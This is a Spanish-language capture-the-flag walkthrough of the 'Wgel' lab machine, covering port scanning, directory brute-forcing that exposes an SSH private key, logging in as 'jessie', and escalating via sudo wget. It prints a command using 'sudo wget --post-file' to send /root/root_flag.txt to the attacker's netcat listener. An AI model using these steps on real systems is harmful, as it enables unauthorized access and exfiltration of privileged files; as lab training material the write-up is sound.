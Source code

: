 # Wgel CTF

## ENUMERACION

### ESCANEO DE PUERTOS

En primer lugar, para verificar la conectividad con nuestra máquina objetivo antes de realizar cualquier otro paso, podemos ejecutar un comando **ping** que envía un único paquete a la dirección IP que queremos verificar.

{% code lineNumbers="true" %}
```
ping -c1 {ip_address}
```
{% endcode %}

Después de haber realizado la verificación mencionada previamente, pasamos a llevar a cabo un escaneo de puertos utilizando la herramienta **nmap**. Para realizar esto, en el entorno de Kali Linux, ejecutamos el siguiente comando con privilegios de administrador y especificamos la dirección IP de la máquina objetivo.

{% code lineNumbers="true" %}
```
sudo nmap -sCV -p21,22,80 {ip_address} -oN /home/kali/Desktop/THM/Wgel/targeted
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image-20230712093142702.png" alt=""><figcaption></figcaption></figure>

En el ejemplo que se muestra, se han identificado dos puertos abiertos en el sistema en cuestión:

* **Puerto 22/TCP SSH**: El puerto 22 se encuentra abierto y está siendo utilizado por el protocolo SSH (Secure Shell). SSH se utiliza para proporcionar acceso seguro a través de una red, y es comúnmente utilizado para administrar sistemas remotos de forma segura. SSH permite la autenticación y el cifrado de la comunicación, lo que garantiza una conexión segura entre el cliente y el servidor.
* **Puerto 80/TCP HTTP**: El puerto 80 también está abierto y se utiliza para el tráfico HTTP (Hypertext Transfer Protocol). El protocolo HTTP se utiliza para la transferencia de información en la World Wide Web. En este caso, se menciona que Apache está siendo ejecutado en este puerto, lo que indica que se trata de un servidor web que utiliza el software Apache para servir páginas web.

Dado que no se disponen de las credenciales necesarias para acceder a SSH, es posible que nuestras opciones sean limitadas en cuanto a lo que podemos hacer directamente a través de este puerto. Por lo tanto, la sugerencia es examinar el sitio web alojado en el puerto 80 para obtener más información.

### PUERTO 80/TCP HTTP

Para comenzar nuestra investigación, accedemos al sitio web utilizando la dirección IP en nuestro navegador. Al observar la página, notamos que se trata de una página predeterminada del servidor Apache 2. A simple vista, no obtenemos mucha información relevante sobre nuestra máquina objetivo, por lo que decidimos adentrarnos en la inspección del código fuente de la página para descubrir cualquier detalle útil.

<figure><img src="../../.gitbook/assets/image-20230712093242507.png" alt=""><figcaption></figcaption></figure>

Durante la inspección del código fuente de la página, encontramos una línea que llama nuestra atención debido a la información que contiene. Esta línea menciona un nombre, el cual podría ser el nombre de usuario necesario para acceder a nuestra máquina objetivo a través del protocolo SSH. Esta pista es particularmente relevante, ya que el acceso SSH nos permitiría interactuar directamente con el sistema operativo de la máquina y potencialmente obtener un mayor nivel de control y acceso a la misma.

<pre data-line-numbers><code>&#x3C;!-- <a data-footnote-ref href="#user-content-fn-1">Jessie </a>don't forget to udate the webiste -->
</code></pre>

Dado que solo hemos obtenido el nombre de usuario como información hasta el momento, vamos a llevar a cabo un análisis de directorios utilizando la herramienta gobuster en la URL correspondiente. Este análisis nos permitirá descubrir posibles directorios y archivos ocultos en el servidor web de la máquina objetivo, lo cual podría brindarnos información adicional relevante.

{% code lineNumbers="true" %}
```
gobuster dir -u http://10.10.147.250/sitemap -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,txt,html,zip,ssh
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image-20230712093401156.png" alt=""><figcaption></figcaption></figure>

Durante el análisis, se observa que se ha encontrado una página llamada **sitemap** que resulta interesante y que vamos a investigar más a fondo en busca de información relevante

<figure><img src="../../.gitbook/assets/image-20230712093526527.png" alt=""><figcaption></figcaption></figure>

Sin embargo, al investigar esta página no se obtiene ningún resultado significativo. Ante esta situación, decidimos volver a realizar otro análisis de directorios utilizando nuevamente la herramienta **gobuster** en la URL.

<figure><img src="../../.gitbook/assets/image-20230712094500859.png" alt=""><figcaption></figcaption></figure>

Durante este nuevo análisis, nos encontramos que **sitemap** oculta un archivo llamado **.ssh** que guarda otro archivo llamado **id\_rsa**. Este archivo en particular es una clave privada cifrada.

<figure><img src="../../.gitbook/assets/image-20230712094527362.png" alt=""><figcaption></figcaption></figure>

Dado que hemos encontrado la clave privada, decidimos guardarla en nuestro equipo en un archivo llamado **id\_rsa**. Esta clave privada será utilizada posteriormente para acceder a la máquina objetivo a través del protocolo **SSH**.

Utilizamos el comando `chmod 600 /ruta/id_rsa` para otorgarle permisos específicos. De esta forma el archivo **id\_rsa** solo será accesible por el propietario y no por otros usuarios o grupos.

Una vez que hayamos cambiado los permisos del archivo y lo hayamos configurado adecuadamente, podremos utilizar esta clave privada para acceder a la máquina objetivo mediante SSH.

### PUERTO 22/TCP SSH

Ahora que hemos obtenido las posibles credenciales para acceder a nuestra máquina a través de SSH, procederemos a verificar el acceso utilizando el siguiente comando.

```
ssh -i id_rsa jessie@<ip_address>
```

<figure><img src="../../.gitbook/assets/image-20230712094937819.png" alt=""><figcaption></figcaption></figure>

La conexión es correcta, así que ya estamos dentro de la maquina objetivo nuestro siguiente paso será buscar nuestra primera bandera. Vamos a utilizar el comando `ls -lAh *`, este comando nos mostrará una lista detallada de todos los archivos y directorios en el directorio actual, incluyendo aquellos que están ocultos.

Observamos que dentro del directorio **Documents** se encuentra un archivo llamado **user\_flag.txt**. Para acceder a este archivo y verificar su contenido, vamos a utilizar el comando `cd` para navegar hasta el directorio donde se encuentra y luego utilizaremos el comando `cat`.

<figure><img src="../../.gitbook/assets/image-20230712095310147.png" alt=""><figcaption></figcaption></figure>

En efecto, al examinar el contenido del archivo **user\_flag.txt**, hemos logrado encontrar nuestra primera bandera, conocida como la **bandera de usuario**.&#x20;

ESCALAR PRIVILEGIOS

Realizamos una breve enumeración utilizando el comando `sudo -l` y descubrimos que tenemos permisos para ejecutar el comando **wget**. Vamos a intentar explotar el comando wget para conseguir nuestra ultima bandera.

<figure><img src="../../.gitbook/assets/image-20230712095243816.png" alt=""><figcaption></figcaption></figure>

Necesitaremos configurar la escucha en el puerto 4445 utilizando netcat en el entorno local. Esto implica iniciar una instancia de netcat en modo de escucha en el puerto mencionado, lo que nos permitirá recibir conexiones entrantes y transferir datos.

<figure><img src="../../.gitbook/assets/image-20230712130713685.png" alt=""><figcaption></figcaption></figure>

Una vez que la escucha está activa, podemos utilizar el comando **wget** junto con el parámetro `--post-file` para enviar un archivo hacia una dirección IP específica, en nuestro caso, la dirección IP de nuestra VPN. Este comando nos permite enviar el archivo especificado en la ruta indicada a la ubicación deseada.

<pre data-line-numbers><code><strong>sudo /usr/bin/wget --post-file=/root/root_flag.txt http://{ip_local}:4445
</strong></code></pre>

Esperamos a que se establezca la conexión y observamos que nuestra máquina local ha recibido el contenido del archivo **root\_flag.txt**, el cual contiene la respuesta para nuestra última bandera.

<figure><img src="../../.gitbook/assets/image-20230712095837023.png" alt=""><figcaption></figcaption></figure>

[^1]: 
